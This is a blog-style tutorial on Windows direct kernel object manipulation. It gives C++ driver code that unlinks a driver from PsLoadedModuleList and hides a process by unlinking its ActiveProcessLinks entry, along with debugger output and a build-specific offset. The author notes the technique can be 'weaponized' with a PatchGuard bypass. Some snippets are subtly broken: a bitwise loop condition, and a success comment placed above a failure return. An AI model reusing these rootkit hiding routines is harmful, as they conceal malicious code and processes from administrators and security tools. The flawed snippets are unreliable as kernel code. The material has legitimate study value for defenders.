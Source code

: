 +++

title = "Windows DKOM Demo"
date = 2020-04-02 00:05:29

+++

## Introduction

This is an implementation of a simple driver which modifies kernel data structures to remove itself from the `PsLoadedModuleList` structure. Disclaimer: PG protects against this. Weaponizable by chaining with a PG bypass.

---

## Data Structures

### Understanding PsLoadedModuleList

`PsLoadedModuleList`  is a global kernel object of type `_KLDR_DATA_TABLE_ENTRY`. It is the list head of a circular linked-list containing the loaded modules on the system. Example:

```
2: kd> ?PsLoadedModuleList
Evaluate expression: -8773737086640 = fffff805`34848150
2: kd> dt poi(fffff805`34848150) _KLDR_DATA_TABLE_ENTRY
DKOM_Demo!_KLDR_DATA_TABLE_ENTRY
   +0x000 InLoadOrderLinks : _LIST_ENTRY [ 0xffffd78d`4ee49340 - 0xfffff805`34848150 ]
   ...
```

### LIST_ENTRY Structure

We can see that information about the entry is offset to the actual `LIST_ENTRY` structure, which holds the addresses of the next and previous `_KLDR_DATA_TABLE_ENTRY` structures. If you're not familiar, `LIST_ENTRY` looks like this:

```
2: kd> dt _List_entry
ntdll!_LIST_ENTRY
   +0x000 Flink            : Ptr64 _LIST_ENTRY
   +0x008 Blink            : Ptr64 _LIST_ENTRY
```

### The DRIVER_OBJECT Structure

As it turns out, each driver has access to its `KLDR_DATA_TABLE_ENTRY` structure by its `DriverObject->DriverSection` member at offset `0x28`. Just for completeness' sake, the `DRIVER_OBJECT` structure looks like this:

```
2: kd> dt PDRIVER_OBJECT
DKOM_Demo!PDRIVER_OBJECT
Ptr64    +0x000 Type             : Int2B
   ...
```

## Modification

### Unlinking from PsLoadedModuleList

As such, one can simply access and traverse `PsLoadedModuleList` using this member of `DRIVER_OBJECT`. Additionally, directly hiding a module from the list is as simple as relinking the `LIST_ENTRY` structures surrounding the driver's:


```c++
PLIST_ENTRY PrevModule = ThisModule->Blink;
PLIST_ENTRY NextModule = ThisModule->Flink;

// Replace PrevModule Flink with NextModule's address;
PrevModule->Flink = NextModule;
// Replace NextModule Blink with PrevModule's address
NextModule->Blink = PrevModule;

// point target process to itself
ThisModule->Flink = ThisModule;
ThisModule->Blink = ThisModule;
```

And since you have access to the driver `KLDR_DATA_TABLE_ENTRY`, you can check your work:

```c++
NTSTATUS FindKernelModule(_In_ PDRIVER_OBJECT DriverObject, _In_ PUNICODE_STRING DriverName) {
	// Logic can be similarly used for finding the PsLoadedModuleList head. ntoskrnl.exe is always the head
	PKLDR_DATA_TABLE_ENTRY pThisModule = (PKLDR_DATA_TABLE_ENTRY)DriverObject->DriverSection;
	PLIST_ENTRY KModEntry = { nullptr };
	PLIST_ENTRY FirstEntry = pThisModule->InLoadOrderLinks.Flink;

	// https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo
	// Loop over the circular linked-list
	for (PLIST_ENTRY pListEntry = pThisModule->InLoadOrderLinks.Flink;
		(pListEntry != &pThisModule->InLoadOrderLinks) &
		(pThisModule->InLoadOrderLinks.Flink != FirstEntry);
		pListEntry = pListEntry->Flink)
	{
		// Search for the driver you're trying to hide
		PKLDR_DATA_TABLE_ENTRY pEntry = CONTAINING_RECORD(
			pListEntry, KLDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

		if (RtlEqualUnicodeString(DriverName, &pEntry->BaseDllName, true)) {
			// oops, you found it. 
			KModEntry = pListEntry;
			return STATUS_SUCCESS;
		}
	}

    // module was unlinked successfully
	return STATUS_UNSUCCESSFUL;
}
```

### Process Hiding

This same type of unlinking behavior can be used to hide a process. In kernel mode, a process can be looked up by its ID using `PsLookupProcessByProcessId`:

```c++
// turn the PID into an EPROCESS pointer
PEPROCESS Process;
status = PsLookupProcessByProcessId((HANDLE)data->pid, &Process);
if (!NT_SUCCESS(status))
	break;
```

Where PEPROCESS represent a pointer to an EPROCESS structure like this:
```
2: kd> dt _EPROCESS
ntdll!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x2e0 ProcessLock      : _EX_PUSH_LOCK
   +0x2e8 UniqueProcessId  : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
   +0x300 RundownProtect   : _EX_RUNDOWN_REF
   +0x308 Flags2           : Uint4B
... (truncated
```

With a pointer to the target process's EPROCESS structure in hand, it can be scanned for the `ActiveProcessLinks` member. Once this member is found, hiding the process is the exact same for hiding a driver process:

```c++
// get the ActiveProcesLinks address
auto CurrentListEntry = (PLIST_ENTRY)((PUCHAR)Process + offset);

auto PrevListEntry = CurrentListEntry->Blink;
auto NextListEntry = CurrentListEntry->Flink;

// unlink the target process
PrevListEntry->Flink = NextListEntry;
NextListEntry->Blink = PrevListEntry;

// point target process to itself
CurrentListEntry->Flink = CurrentListEntry;
CurrentListEntry->Blink = CurrentListEntry;
```
On Windows 10 1901 build 18363, the `ActiveProcessLinks` member is located at offset 0x2f0. This offset changes between builds.

## Conclusion

The full source for an example driver can be found [here](https://github.com/joshfinley/DKOM_Demo).

Of course, none of this is anything new: 

## References
- [blackbone implementation to find PsLoadedModuleList](https://github.com/DarthTon/Blackbone/blob/master/src/BlackBoneDrv/Loader.c)
- [all sorts of ways of finding module addresses](https://m0uk4.gitbook.io/notebooks/mouka/windowsinternal/find-kernel-module-address-todo)
- [another implementation of the same driver hiding functionality](/archives/00cd5a90c5a855987d036c86fe4cca9a15cf566d6ac81fcfe6e626fd96aad1bb_Hiding%20loaded%20driver%20with%20DKOM%20.txt.html)
- [the reference implementation for the process hiding functionality](/archives/00cd5a90c5a855987d036c86fe4cca9a15cf566d6ac81fcfe6e626fd96aad1bb_Hide%20process%20with%20DKOM%20without%20hardcoded%20offsets.txt.html)
